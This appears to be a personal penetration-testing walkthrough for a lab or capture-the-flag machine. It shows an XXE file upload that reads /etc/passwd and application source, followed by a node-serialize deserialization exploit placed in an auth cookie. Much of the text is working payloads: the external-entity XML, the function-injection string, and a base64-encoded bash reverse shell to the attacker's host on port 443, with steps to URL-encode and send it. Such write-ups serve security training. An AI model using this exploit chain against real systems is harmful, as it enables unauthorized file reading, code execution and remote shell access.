 #### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

### Burp to XXE
After logging in, go to file upload.

Create a test.txt with random characters.

echo "fdafasfsdf" > test.txt

Upload with Burp on.

Look in Burp for POST /articles/xml

Make a test.xml file with the template provided from Burp request:

test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Upload the new test.xml file.

![[Pasted image 20220218093158.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability

Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```

Combine it with our xml code, update the description with "&example;":

```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```

Verify we see "Doe" in the description field.

![[Pasted image 20220218093947.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe

Pay attention to the !ENTITY value "test", and replace accordingly with the description field.

```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```

![[Pasted image 20220218095220.png]]

Great, now for node.js system, we need to find one of the following files:

/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js

Replace the payload until one works.

Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.

Look at line 6, requirement of node-serialize.

>const serialize = require('node-serialize')

Google "node-serialize exploit"

https://snyk.io/test/npm/node-serialize

```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```

While logged in, capture a request to "/" in Burp.

![[Pasted image 20220218101257.png]]

Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U

Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}

```

```bash - kali
echo "bash  -i >& /dev/tcp/$KALI/443  0>&1" | base64
```

YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=

```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```

Final should look like:

```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Highlight and convert selection to URL encoded: 

Convert selection > URL > URL encode ALL characters

Request should look like:

![[Pasted image 20220218103639.png]]
